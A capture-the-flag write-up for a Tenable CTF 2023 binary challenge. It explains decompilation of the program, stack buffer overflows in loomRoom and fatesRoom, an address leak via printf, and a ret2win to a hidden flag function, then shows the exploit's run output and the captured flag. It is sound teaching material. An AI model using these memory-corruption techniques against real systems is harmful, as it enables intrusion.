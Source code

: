 # Initial Analysis (Decompilation)

The writer utilized the IDA Pro decompiler to facilitate a clearer understanding of the program's flow within the output code.

The executable file presents four main features:
1. Call loomRoom and return data `dest`, 
2. Print data from variable `v8` (the data inputed from no.1)
3. Need value a variable `aThisisnotthepa` to call fatesRoom
4. just exit program

# Vulnerability 

A noteworthy vulnerability lies in an unused function named theVoid. 
There one function never called is `theVoid`. This function appears to be designed to display a flag, so the write will assume thats the objective is successfully call function `theVoid`.

in function loomRoom, there are have buffer overflow at variable src but cann't change return address.

```
char src[8]
...
fgets(src, 286, _bss_start);
```

in function fatesRoom, there are also have buffer overflow and can change return address.
```
char dest[8];
...
strcpy(dest, a1);
```

# Exploit

First, you need to locate the method to call `fatesRoom` function. Following that, you can execute any function, such as `theVoid` function. What you require is the value from the `s2` variable.

A buffer overflow in `loomRoom` function, can be used to alter the value of `dest` variable to to your desired value, in the end of function, the `dest` variable will serve as a return value. 
```
...
v8 = loomRoom(v8, v4);
...
```
this mean that variable `dest` same as variable `v8`

After that feature number 2 can print variable `v8`, so you have abritary leak address.
```
printf("%s", v8);
```

in `fatesRoom` function , you can just do ret2win(return to win) to call `theVoid`

Run exploit 
```
└─# python2 solve.py      
[*] '/root/Desktop/github/CTF/TenableCTF2023/Reversing - Pwns/Skiddyana Pwnz and the Loom of Fate/loom'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 0.cloud.chals.io on port 33616: Done
[*] Switching to interactive mode


=============================================================================
Choose your next move:

1) Enter the room of the loom
2) Read the wall of prophecy
3) Enter the room of the fates
4) leave

> 

=============================================================================

You enter the room of the loom, and see the loom of fate before you. You can etch a prophecy into the futre, or leave the future alone.
1) Prophesize
2) Leave

> 

=============================================================================
Choose your next move:

1) Enter the room of the loom
2) Read the wall of prophecy
3) Enter the room of the fates
4) leave

> 

Before you is a large stone door. As you behold it, you hear a voice inside of your head.


Speak the unpronouncable phrase to pass to the room of fates : 

> 

=============================================================================

You enter the room of fates and see the tapestry of reality laid out before you.
The voice in your head returns:

'Are you willing to force your prophecy onto the past? To corrupt this reality to find what you seek?'

1) Yes
2) No

> 
You stretch the fabric of this reality, its premise worn thin.

...th...this is what you destroyed reality for?
Ok. Well. It's yours.

flag{d0nt_f0rg3t_y0ur_h4t}
```
## Flag

Flag : `flag{d0nt_f0rg3t_y0ur_h4t}`